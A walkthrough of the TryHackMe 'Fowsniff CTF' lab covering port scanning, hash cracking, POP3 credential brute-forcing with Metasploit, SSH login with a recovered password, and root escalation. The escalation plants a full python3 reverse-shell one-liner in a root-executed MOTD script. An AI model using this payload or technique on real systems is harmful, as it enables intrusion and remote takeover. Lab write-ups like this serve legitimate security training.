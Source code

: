 ```yaml
---
layout: post
title: Fowsniff CTF
date: '2024-06-01'
description: "Fowsniff CTF is a guided boot2root machine on TryHackMe"
categories: [THM]
---
```

## MACHINE INFO

> **[Fownsiff CTF](https://tryhackme.com/r/room/ctf)** is an easy guided boot2root machine that leverages the use of a metasploit exploit to gain user ssh credentials and edit a bash script in the user called `cube.sh` to include a reverse shell payload that will give us a shell to fetch the flag.

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

## Enumeration
Nmap scan of the target
```shell
┌──(p0s3id0n㉿kali)-[~/thm]
└─$ nmap -sCV -p- -A 10.10.160.109 --min-rate=10000ms
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 23:17 BST
Nmap scan report for 10.10.160.109
Host is up (0.63s latency).
Not shown: 64580 filtered tcp ports (no-response), 951 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ listed AUTH=PLAINA0001 Pre-login post-login more LOGIN-REFERRALS OK have IDLE capabilities ENABLE SASL-IR IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.40 seconds

```

Open ports are: 22, 80,110,143
Found a website on port 80 saying that the service is temporarily down and employee information has been leaked. Customer information is safe but employees are encouraged to change their passwords.
![img-description](1.png)
![img-description](2.png)
![img-description](3.png)

Also found the official twitter account of the company.
![img-description](4.png)
![img-description](5.png)
There was a pastebin containing the passwords but the site was down so I used the github link on the challenge hint (https://github.com/berzerk0/Fowsniff)

The link contained a list of employee usernames and passwords. We are expected to crack the password hashes. I used (https://crackstation.net/) for this.
Dumped passwords and usernames:
![img-description](6.png)
Cracked passwords:
![img-description](7.png)

In order to use the metasploit exploit, we have to create 2 files, one for the cracked passwords and another for the usernames.
From the hint, we are guided to use the following metasploit package: auxiliary/scanner/pop3/pop3_login
![img-description](8.png)
![img-description](9.png)

Set the options and make sure to change the user and pass files to the users and pass files we set earlier. 

After running the exploit, we got user seina's password 
![img-description](10.png)

I then used a netcat listener to connect to the pop3 server using seina's credentials.
![img-description](11.png)
The user had 2 emails in her inbox: one from the system admin Stone and one from another user baksteen.

The output points towards use of ssh to login to the application using the temporary password and the sender's username.
Temp password:
![img-description](12.png)
```shell 
Password : S1ck3nBluff+secureshell
```
I first tried logging in using seina's username but that did not work. I then tried stone's username because he was the sender of the first email but that also did not work.
Then I looked at the second email and found the baksteen user as the sender. 
Sender's username:
![img-description](13.png)

What groups does the user belong to?
Using the id command we found the user belong to the users and baskteen group.
![img-description](14.png)

We are given a hint : cube.sh
So I used the following command to find the location of the flag.
```shell
find / -name "cube.sh"
```
![img-description](15.png)

Contents of the cube.sh file
![img-description](16.png)
We have write persmissions over the file
![img-description](17.png)

Can we edit it to include reverse shell?
I used the following online site to generate a pyton3 rev shell as instructed (https://www.revshells.com/)
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.73.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
I pasted the rev shell payload to the cube.sh file using the vi editor.

Now came the challenging bit, how do I run the file to get a connected shell via my netcat listener.
Then I saw the hint on the machine
Hint 
> 1. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!
> 2. Run the cube file to the motd.d file.

Step one:
Look at the file specified to confirm the cube.sh file is called there. 
![img-description](19.png)
![img-description](20.png)
Now that we have confirmed the cube.sh file can be called by the motd file we can move to the next part

Step 2:
> Hint : If you have not found out already, this file is run as root when a user connects to the machine using SSH.

This means that if we attempt to connect to the machine using the same user again via ssh, we will get root privileges.

So I set up my netcat listener, opened a new tab and logged in as baskteen using ssh.

Successful root!!
![img-description](21.png)

![img-description](22.png)
